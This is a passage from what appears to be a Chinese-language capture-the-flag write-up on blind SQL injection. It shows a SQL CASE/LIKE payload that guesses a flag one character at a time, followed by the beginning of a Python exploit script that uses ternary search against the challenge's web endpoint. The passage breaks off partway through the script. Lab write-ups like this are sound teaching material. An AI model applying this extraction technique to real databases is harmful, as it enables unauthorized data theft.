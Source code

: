 ``` sql
    (content like 'cymetrics{q%')
  ) then 2
  when (
    (content like 'cymetrics{r%') or
    (content like 'cymetrics{s%') or
    (content like 'cymetrics{t%') or
    (content like 'cymetrics{u%') or
    (content like 'cymetrics{v%') or
    (content like 'cymetrics{w%') or
    (content like 'cymetrics{x%') or
    (content like 'cymetrics{y%') or
    (content like 'cymetrics{z%') or
    (content like 'cymetrics{\_%')
  ) then 5
  else 10
end from flag)
```

每次都分成三等份搜尋，就變成了三分搜尋法，最壞的狀況下需嘗試的次數從 9n 變成了 3n，腳本如下（三分搜的部分算是亂寫的，不保證沒有 bug）：

``` python
# exploit-search-teanary.py
import requests
import time
import json
import urllib.parse

def print_success(raw):
  print(f"\033[92m{raw}\033[0m")

def encode(raw):
  return urllib.parse.quote(raw.encode('utf8'))

host = 'https://od-php.herokuapp.com/sql'
char_index = 0
char_set = '}abcdefghijklmnopqrstuvwxyz_'
result = 'cymetrics{'

is_over = False
start = time.time()
while True:
  print_success("result: " + result)
  if is_over:
    break

  found = False
  L = 0
  R = len(char_set) - 1
  while L<=R:
    s = (R-L) // 3
    ML = L + s
    MR = L + s * 2
    if s == 0:
      MR = L + 1

    group = [
      char_set[L:ML],
      char_set[ML:MR],
      char_set[MR:R+1]
    ]

    conditions = []
    for i in range(0, 3):
      if len(group[i]) == 0:
```